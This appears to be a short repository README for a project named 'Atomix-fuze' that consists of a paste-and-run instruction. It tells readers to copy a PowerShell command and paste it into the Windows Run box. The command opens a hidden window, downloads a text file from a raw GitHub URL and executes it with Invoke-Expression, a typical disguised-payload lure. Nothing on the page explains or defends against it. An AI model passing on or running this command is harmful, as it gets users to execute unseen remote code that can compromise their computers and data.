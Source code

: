 DO THIS ON YOUR PC:

1) COPY THIS: ```powershell.exe -windowstyle hidden Invoke-Expression(Invoke-webrequest -URI "https://raw.githubusercontent.com/alex-X-12/Atomix-fuze/main/cmd.txt").Content```
2) HOLD WIN+R
3) HOLD CTR+V
4) PRESS ENTER!
